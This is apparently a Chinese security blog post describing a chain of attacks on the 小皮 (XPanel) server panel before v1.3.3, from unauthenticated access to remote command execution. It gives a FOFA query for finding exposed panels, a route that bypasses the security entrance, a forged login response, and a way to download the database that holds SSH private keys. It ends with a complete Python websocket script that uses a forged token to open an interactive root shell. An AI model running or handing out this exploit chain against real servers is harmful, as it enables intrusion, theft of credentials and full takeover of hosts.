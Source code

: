 #  小皮面板从未授权到RCE   
原创 clockwise  Clock安全   2025-05-12 12:37  
  
影响版本：XPanel v1.3.3之前  
  
存在鉴权绕过，可构造恶意请求直接访问后台管理接口，结合任意文件下载获取数据库文件，并提取ssh私钥，实现RCE。  
  
fofa：icon_hash="-1458616391"  
### 绕过安全入口及未授权进入后台  
  
由于小皮面板有安全入口，访问登录页面需要先获取的每个账号对应的随机字符串，例如:x.x.x.x:6666/4e4rv3  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hUqhnDMibdnKic7x9y1Ls6tLO3CDFRFEkMVOVfosPZ4RP6KvvgZIkpUf0K5973mc4WrRJib2IKUvXBbNlGiaENrBGA/640?wx_fmt=png&from=appmsg "")  
  
但是可以通过访问/tmplogin  
路由，进行绕过，直接到达登录口。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hUqhnDMibdnKic7x9y1Ls6tLO3CDFRFEkMqXiabAojpmnWyD2cOE9gbdicg6MG705A84CXHIA6QrAddEuUgWRDkLEQ/640?wx_fmt=png&from=appmsg "")  
  
首先在登录口，由于后台未做校验，直接替换响应包的内容即可绕过  
```
{"code":1000,"data":{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3NDYzMzM2NjYsImlhdCI6MTc0NTcyODg2NiwiaXNzIjoieHAiLCJuYmYiOjE3NDU3Mjg4NjYsInVzZXJfaWQiOjEsImFjY291bnQiOiJhNjFjYTQxZCIsInRlbXAiOmZhbHNlfQ.xC1vSZnWhYykBEKdiRUqf2SbTifmwZfpwHREqy8SyYI"},"message":"登录成功"}

```  
  
并且登录之后不会有日志  
  
这里只要注册账号，获得一个可以成功登录的token，即可用在任意服务器上登录了。  
### 获取SSH密钥  
  
登录成功之后可以下载数据库文件xp/db/app.db  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hUqhnDMibdnKic7x9y1Ls6tLO3CDFRFEkMR5ric7PN53mfkeEBfl9cjnMicwOR3bLuDlqsS4iacQGiaaXWTK3pMDcyEg/640?wx_fmt=png&from=appmsg "")  
  
保存到本地之后使用navicat打开，直接导入表会报错，这里我用的是新建连接一个SQLite，并且选中app.db进行连接。  
  
在terminal表中可以获取SSH的RSA私钥  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hUqhnDMibdnKic7x9y1Ls6tLO3CDFRFEkMaB5RpiaJClu1o5Z8PqMSDpYamuTSGibupqkYY2zNeunVRfm8n8aSKC6w/640?wx_fmt=png&from=appmsg "")  
  
保存为key.pem  
，然后使用私钥连接SSH即可  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hUqhnDMibdnKic7x9y1Ls6tLO3CDFRFEkMaB5RpiaJClu1o5Z8PqMSDpYamuTSGibupqkYY2zNeunVRfm8n8aSKC6w/640?wx_fmt=png&from=appmsg "")  
### 信息泄露  
  
小皮的主程序在/xp/panel/app  
，我们通过go tool将主程序编译为汇编代码  
```
go tool objdump -S app > xp.asm 

```  
  
然后可以根据规则去搜索⾯板相关接⼝，有些接⼝在⾯板⾥没有使⽤到，但是可以直接调⽤的。  
  
例如这个未授权接口会泄露面板的用户名、key、安全入口、端口、版本号等信息  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hUqhnDMibdnKic7x9y1Ls6tLO3CDFRFEkMQtoEiaGOWy1C9TWgmsqDibubCu8XKyibicRCZIILRRYQDR5s8mF19JMEGQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hUqhnDMibdnKic7x9y1Ls6tLO3CDFRFEkMMTSltHicbrtnwibF87QTqR1icCQynUABhGJXsrpjibJHLdpUQ9xcKcpuRA/640?wx_fmt=png&from=appmsg "")  
### 无需入口RCE  
  
小皮的终端连接无需安全面板，通过WS协议通信执行命令，只需要伪造token即可连接服务器执行命令  
```
#!/usr/bin/env python3
import sys
import asyncio
import websockets
from typing import Optional

class WebSSHClient:
    def __init__(self, host: str):
        self.websocket: Optional[websockets.WebSocketClientProtocol] = None
        self.host = host
        self.auth_token = "伪造的身份标识"
        self.connected = False

    async def connect(self) -> None:
        """Establish WebSocket connection and authenticate"""
        uri = f'ws://{self.host}/wsSsh/wsSsh?machineId=1&token={self.auth_token}'
        try:
            self.websocket = await websockets.connect(uri)
            await self._authenticate()
            self.connected = True
        except Exception as e:
            print(f"Connection failed: {str(e)}")
            raise

    async def _authenticate(self) -> None:
        """Handle authentication process"""
        if not self.websocket:
            raise ConnectionError("WebSocket not initialized")

        await self.websocket.send('1')
        response = await self.websocket.recv()

        if "Last login" in response:
            print('Authentication successful!')
        else:
            print(f"Server response: {response}")

    async def run_shell(self) -> None:
        """Main interactive shell loop"""
        if not self.connected:
            print("Not connected to server")
            return

        print("\nInteractive shell (type 'exit' to quit)")
        while True:
            try:
                command = input("root@localhost# ").strip()
                if not command:
                    continue

                if command.lower() in ('exit', 'quit'):
                    print("Closing connection...")
                    await self.close()
                    return

                await self._send_command(command)
                response = await self.websocket.recv()
                print(response)

            except KeyboardInterrupt:
                print("\nUse 'exit' or 'quit' to end the session")
            except Exception as e:
                print(f"Error: {str(e)}")
                await self.close()
                return

    async def _send_command(self, command: str) -> None:
        """Format and send command to server"""
        if not self.websocket:
            raise ConnectionError("WebSocket not initialized")

        formatted_cmd = f'{{"type":2,"msg":"{command}\\r"}}'
        await self.websocket.send(formatted_cmd)

    async def close(self) -> None:
        """Cleanly close the connection"""
        if self.websocket and not self.websocket.closed:
            await self.websocket.close()
        self.connected = False

async def main():
    if len(sys.argv) < 2:
        print(f"Usage: {sys.argv[0]} <host>")
        sys.exit(1)

    host = sys.argv[1]
    client = WebSSHClient(host)

    try:
        await client.connect()
        await client.run_shell()
    except Exception as e:
        print(f"Fatal error: {str(e)}")
    finally:
        if client.connected:
            await client.close()

if __name__ == "__main__":
    try:
        asyncio.get_event_loop().run_until_complete(main())
    except KeyboardInterrupt:
        print("\nSession terminated by user")

```  
  
  
  
